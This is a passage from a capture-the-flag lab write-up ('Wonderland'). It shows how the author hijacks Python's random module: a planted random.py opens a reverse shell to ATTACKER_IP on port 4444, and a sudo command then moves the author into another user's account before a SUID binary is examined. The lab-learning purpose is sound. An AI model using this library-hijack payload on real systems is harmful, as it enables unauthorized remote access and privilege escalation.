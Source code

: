 With that in mind, we can create our own **random.py** file in the same directory as walrus_and_the_carpenter.py, which will open up a reverse shell instead of doing what the random library normally does.

We create **random.py** with a function called **choice()**, as this function was used in walrus_and_the_carpenter.py. The choice() function contains code that will open a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python):

```python
import socket,os,pty

def choice(a):
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ATTACKER_IP",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("/bin/sh")
```

Next, we set up our netcat listener.

Finally, we run walrus_and_the_carpenter.py with `sudo -u`:

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![screenshot16](../assets/images/wonderland/screenshot16.png)

With that, our reverse shell was opened and we gained access into rabbit's account!

In rabbit's home directory, we have an interesting binary called **teaParty**:

![screenshot17](../assets/images/wonderland/screenshot17.png)

teaParty is an ELF binary with the **SUID** and **SGID** bit set:

![screenshot21](../assets/images/wonderland/screenshot21.png)
